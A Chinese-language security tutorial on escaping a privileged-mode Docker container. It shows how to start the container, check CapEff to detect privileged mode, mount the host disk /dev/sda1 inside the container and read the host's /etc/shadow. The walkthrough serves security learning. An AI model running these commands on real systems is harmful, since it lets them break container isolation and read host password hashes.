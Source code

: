 ```yaml
---
title: Privileged 特权模式容器逃逸

---
```


<center><h1>Privileged 特权模式容器逃逸</h1></center>

---

## 搭建

例如当前有个普通用户 teamssix，并且是在 docker 用户组内的

<img width="1200" src="/img/1650013515.png">

在普通用户下，使用 --privileged=true 创建一个容器

```bash
docker run --rm --privileged=true -it alpine
```

## 检测

在容器内部执行下面的命令，从而判断容器是不是特权模式，如果是以特权模式启动的话，CapEff 对应的掩码值应该为0000003fffffffff 或者是 0000001fffffffff

```bash
cat /proc/self/status | grep CapEff
```

## 复现

### 方法一

查看挂载磁盘设备

```plain
fdisk -l
```

<img width="1200" src="/img/1650014398.png">

在容器内部执行以下命令，将宿主机文件挂载到 /test 目录下

```json
mkdir /test && mount /dev/sda1 /test
```

尝试访问宿主机 shadow 文件，可以看到正常访问

```json
cat /test/etc/shadow
```

<img width="1200" src="/img/1650014420.png">
